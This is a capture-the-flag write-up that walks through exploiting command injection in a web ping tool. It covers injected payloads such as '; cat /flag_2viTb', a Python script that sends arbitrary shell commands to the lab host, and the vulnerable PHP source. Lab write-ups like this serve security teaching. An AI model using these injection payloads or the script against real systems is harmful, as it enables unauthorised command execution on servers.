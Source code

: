 # CHALLENGE DESCRIPTION
We've built the most secure networking tool in the market, come and check it out!

# Analysis
When we start the instance, we are met with an options menu:
![lg-1](https://user-images.githubusercontent.com/87711310/211148012-9d2e82a3-00b5-428a-99a3-b3c849ff1af7.png)

It appears as if we can input the IP, which is then pinged. Let's imagine for a second how this could be implemented on the server side. A common trap developers can fall into is doing something like:
```python
system("ping -c 4 " + ip);
```

Essentially, we're passing the parameters to bash. This means we could, theoretically, insert a ; character into the ip variable, and everything behind it would be interpreted as a seperate command, e.g.:
```python
system("ping -c 4 178.62.0.100; ls");
```

Here, ls would be run as a separate command. Let's see if it works!

# Exploration
Let's try it by simply inputting ; ls to the end of the IP and submitting:
```python
PING 178.62.0.100 (178.62.0.100): 56 data bytes
--- 178.62.0.100 ping statistics ---
4 packets transmitted, 0 packets received, 100% packet loss
index.php
```

Look - as well as the ping command, we get index.php, which is the result of the ls command!

There doesn't appear to be a flag, so we'll try ; ls / to read the root directory next:
```python
PING 178.62.0.100 (178.62.0.100): 56 data bytes
--- 178.62.0.100 ping statistics ---
4 packets transmitted, 0 packets received, 100% packet loss
bin
boot
dev
entrypoint.sh
etc
flag_2viTb
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
www
```

There's a `flag_2viTb` file! Now we'll inject `; cat /flag_2viTb` to read the flag:
```python
PING 178.62.0.100 (178.62.0.100): 56 data bytes
--- 178.62.0.100 ping statistics ---
4 packets transmitted, 0 packets received, 100% packet loss
HTB{REDACTED}
```
And boom, we've got the flag!!!
---

## Automation
Because I prefer a command-line interface, I originally created a simple script to inject parameters for me:
```python
from requests import post

cmd = input('>> ')

data = {'test': 'ping', 'ip_address': f'178.62.0.100; {cmd}', 'submit': 'Test'}
r = post('http://178.62.0.100:30134/', data=data)

data = r.text
data = data.split('packet loss\n')[-1]
data = data.split('</textarea>')[0]

print(data.strip())
```

This simply inputs the command as `cmd`, sets the `POST` parameters, and (really messily) parses the response to return just the data.

```python
$ python3 exploit.py 
>> cat /flag_2viTb      
HTB{REDACTED}
```
---

## Checking the Source
We can inject cat `index.php` to see what exactly was happening, and we immediately see the following lines:
```php
function runTest($test, $ip_address)
{
    if ($test === 'ping')
    {
        system("ping -c4 ${ip_address}");
    }
    if ($test === 'traceroute')
    {
        system("traceroute ${ip_address}");
    }
}
```

As we guessed, it passed in the input `without sanitising` it to remove potential injection.
